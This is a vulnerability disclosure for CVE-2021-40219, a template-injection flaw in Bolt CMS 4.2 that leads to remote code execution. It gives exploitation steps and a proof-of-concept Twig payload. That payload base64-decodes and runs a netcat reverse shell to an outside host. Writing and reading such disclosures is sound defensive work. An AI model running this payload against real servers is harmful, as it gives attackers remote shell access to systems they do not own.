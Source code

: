 
<h1>CVE-2021-40219</h1>
```Bolt CMS``` SSTI to Remote Code Execution


Reported by S1lv3r

```Description :```

The vulnerability exists on core/src/Controller/Frontend/TemplateController.php on line 25 that is about
unsave rendering allow an authenticated attacker to abuse it using server-side template injection
vulnerability that lead to remote code execute with bypass array error restriction with "join” filter

https://github.com/bolt/core/blob/3b21a73ebf519b76756d3ad2841312d10ef11461/src/Controller/Frontend/TemplateController.php#L25 

# TemplateController.php line 25:
```return $this->render($templates, []);```

1- The authenticated user edit theme by going to file management -> view/edit themes

2- Inject our PoC payload that will run system command

3- Go to Edit Page then create new page and choose our malicious template

4- Go to RCE-PoC page (using step 3) to trigger execution : http://127.0.0.1/page/RCE-PoC


```Version :```
BoltCMS Latest Version 4.2 ( GitHub's latest version 8/23/2021 )

```Attack Type:```
Remote

```Impact :```
Remote Command Execution


```PoC : ```

``` python 

{{['echo${IFS}-n${IFS}"bmMgMTAuMC4yLjE1IDQ0MyAtZSAvYmluL2Jhc2g="${IFS}|${IFS}base64${IFS}-
d${IFS}|bash']|filter('system')|join(', ') }}

```

